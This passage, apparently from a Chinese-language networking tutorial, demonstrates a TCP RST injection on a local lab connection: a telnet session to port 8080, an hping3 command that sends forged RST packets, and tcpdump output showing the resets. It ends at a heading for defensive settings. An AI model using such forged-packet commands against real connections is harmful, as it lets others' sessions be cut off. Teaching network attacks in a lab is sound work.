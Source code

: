 2. 使用telnet连接服务

```
liutao@liutao:~$ telnet 127.0.0.1 8080
Trying 127.0.0.1...
```

3. **使用工具进行RST攻击**：
    - 工具：`hping3` 是一个常用的网络测试工具，可以用于发送伪造的TCP包。
    - 安装：可以通过`apt-get install hping3`安装（对于Debian/Ubuntu系统）。
    - 命令：
      ```sh
      sudo hping3 -R -p 8080 -s source_port server_ip_address
      ```

    其中：
    - `-R` 表示发送RST包。
    - `-p` 指定目标端口。
    - `-s` 指定源端口。
    - `server_ip_address` 是服务器的IP地址。
  
```
sudo hping3 -R -p 8080 -s 44584 127.0.0.1
HPING 127.0.0.1 (lo 127.0.0.1): R set, 40 headers + 0 data bytes
```  


#### 抓包日志

```
sudo tcpdump -i any host 127.0.0.1 and port 8080
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on any, link-type LINUX_SLL (Linux cooked v1), capture size 262144 bytes
10:27:28.215877 IP localhost.44584 > localhost.http-alt: Flags [S], seq 3554245386, win 65495, options [mss 65495,sackOK,TS val 3644036575 ecr 0,nop,wscale 7], length 0
10:27:28.215898 IP localhost.http-alt > localhost.44584: Flags [S.], seq 2065343721, ack 3554245387, win 65483, options [mss 65495,sackOK,TS val 3644036575 ecr 3644036575,nop,wscale 7], length 0
10:27:28.215915 IP localhost.44584 > localhost.http-alt: Flags [.], ack 1, win 512, options [nop,nop,TS val 3644036575 ecr 3644036575], length 0
10:28:49.185671 IP localhost.44584 > localhost.http-alt: Flags [R], seq 1860680137, win 512, length 0
10:28:50.186658 IP localhost.44585 > localhost.http-alt: Flags [R], seq 1478344256, win 512, length 0
10:28:51.187245 IP localhost.44586 > localhost.http-alt: Flags [R], seq 1605591246, win 512, length 0
10:28:52.188036 IP localhost.44587 > localhost.http-alt: Flags [R], seq 26262065, win 512, length 0
10:28:53.188468 IP localhost.44588 > localhost.http-alt: Flags [R], seq 761894400, win 512, length 0
10:28:54.189083 IP localhost.44589 > localhost.http-alt: Flags [R], seq 1333400608, win 512, length 0
10:28:55.189615 IP localhost.44590 > localhost.http-alt: Flags [R], seq 619160035, win 512, length 0
```


### 防范措施配置示例
